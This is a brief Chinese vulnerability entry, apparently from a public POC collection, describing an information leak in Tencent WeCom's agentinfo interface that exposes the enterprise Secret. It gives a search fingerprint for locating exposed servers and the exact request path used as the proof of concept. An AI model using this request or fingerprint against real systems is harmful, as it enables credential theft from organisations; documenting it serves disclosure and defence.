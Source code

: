 # 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 漏洞描述

腾讯 企业微信 agentinfo 接口存在信息泄漏漏洞，攻击者通过漏洞可以获取企业微信 Secret

## 漏洞影响

<a-checkbox checked>腾讯 企业微信</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="wework_admin.normal_layout"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691826671192-b1e9846a-3d9d-423e-aa0f-8800074af3c5.png)

验证POC

```php
/cgi-bin/gateway/agentinfo
```

![img](../../../.vuepress/public/img/1691826986597-d2dc28f9-7e86-4752-8fae-954bf44d5e0b.png)
